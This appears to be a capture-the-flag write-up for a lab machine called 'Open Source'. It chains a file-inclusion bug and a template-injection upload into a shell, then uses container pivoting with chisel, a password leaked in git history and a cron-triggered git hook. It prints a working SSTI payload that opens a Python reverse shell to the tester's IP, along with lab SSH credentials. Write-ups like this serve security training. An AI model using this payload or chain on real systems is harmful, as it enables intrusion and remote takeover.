 # Open Source

![OpenSource.png](Open%20Source/OpenSource.png)

**May 21, 2022**

The code has a capacity to uploads codes and download the application source code: 

![Untitled](Open%20Source/Untitled.png)

There are two vulnerabilities, LFI on “/uploads” route and SSTI on “/” route.

![Untitled](Open%20Source/Untitled%201.png)

Exploitation of local file inclusion:

![Untitled](Open%20Source/Untitled%202.png)

The trick is upload an SSTI malicious payload in “success.html” file obtained from the source code.

![Untitled](Open%20Source/Untitled%203.png)

Payload used:

```python
{{"".__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('python -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.47\",3301));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")\'')}}
```

We are inside a container, doing some tests we found an port on the address “172.16.0.1”.

![Untitled](Open%20Source/Untitled%204.png)

Found port.

![Untitled](Open%20Source/Untitled%205.png)

Pivoting with chisel socks.

![Untitled](Open%20Source/Untitled%206.png)

Chisel socket:

![Untitled](Open%20Source/Untitled%207.png)

Proxy chains configuration to work with chisel:

![Untitled](Open%20Source/Untitled%208.png)

Run an nmap with proxychains to scan the network and find the GITEA running on the address.

![Untitled](Open%20Source/Untitled%209.png)

There are some users:

![Untitled](Open%20Source/Untitled%2010.png)

The source code downloaded at the beginning has an git histors:

![Untitled](Open%20Source/Untitled%2011.png)

Select the tree:

![Untitled](Open%20Source/Untitled%2012.png)

A different file on the directory is the “.vscode” file.

![Untitled](Open%20Source/Untitled%2013.png)

Reading the commit we found the password of the dev user:

![Untitled](Open%20Source/Untitled%2014.png)

This credentials can be used to login on SSH.

```python
dev01
Soulless_Developer#2022
```

The machine has some crontab commands running every minute, we can craft a exploit using the git hooks inside the .git directory. 

![Untitled](Open%20Source/Untitled%2015.png)

### Git hooks webpage

[https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks)

IPPSEC video reference: [https://youtu.be/Fxq6oZ-H-xI?t=1574](https://youtu.be/Fxq6oZ-H-xI?t=1574)

In this example we used the pre-commit hook, that is executed when the crontab run the commit command:

![Untitled](Open%20Source/Untitled%2016.png)

### POC

Pre-commit file inside the hook folder:

![Untitled](Open%20Source/Untitled%2017.png)

Return after run:

![Untitled](Open%20Source/Untitled%2018.png)

With this behavior a reverse shell can be spawned.
